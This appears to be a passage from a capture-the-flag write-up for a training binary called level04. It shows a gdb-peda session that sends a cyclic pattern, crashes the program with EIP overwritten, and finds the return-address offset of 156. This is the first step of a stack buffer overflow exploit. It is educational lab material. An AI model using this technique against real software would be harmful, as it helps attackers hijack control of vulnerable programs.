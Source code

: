 <pre>
$> gdb ./level04 
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
Starting program: /home/alarm/42/override/level04/Ressources/level04 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
<strong>EIP: 0x71414154 ('TAAq')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x71414154
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x71414154 in ?? ()
gdb-peda$ pattern offset TAAq
<strong>TAAq found at offset: 156</strong>
</pre>
